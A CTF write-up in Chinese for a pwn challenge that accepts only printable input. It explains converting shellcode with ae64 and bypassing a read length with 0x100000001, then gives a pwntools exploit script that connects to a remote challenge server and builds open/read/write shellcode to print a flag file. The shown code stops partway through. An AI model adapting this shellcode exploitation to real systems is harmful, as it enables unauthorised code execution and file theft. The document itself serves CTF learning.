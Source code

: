![image-20231229152406589](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111776.png)

![image-20231229153055090](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111777.png)

程序要求我们输入可见字符，我们先利用push pop 将rax设置成当前rip 的值，然后调用ae64 将我们的输入的shellcode转化为可见字符shellcode。

所以正常写shellcode就行，比赛中我们的方法是：read 的count 可以使用0x100000001绕过，然后循环write flag即可

```python
from pwn import*
from ae64 import AE64
context.arch='amd64'
context.log_level='debug'
p=remote("8.130.35.16",58002)
#p=process(['checkin'])
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
	gdb.attach(p,"b *$rebase(0x01764)")
	pause()

#0x20230000
shellcode=""
shellcode+="""
push 0x50505050
pop rax
xor rax,0x7073506c
"""
#sc=shellcraft.read(0,0x20230120,0x100000001)
flag_addr=0x20230000+0xf0+0x30
sc=f"""
push 0
pop rdi
push 3
pop rax
syscall
"""
sc+=shellcraft.open("flag")
sc+=f"""
push rax
pop rdi
push {flag_addr+0x100}
pop rsi
mov rdx,0x100000001
push 0
pop rax
syscall
"""
sc+=f"""
mov r8,0
loop:
push 1
pop rdi
push {flag_addr+0x100}
```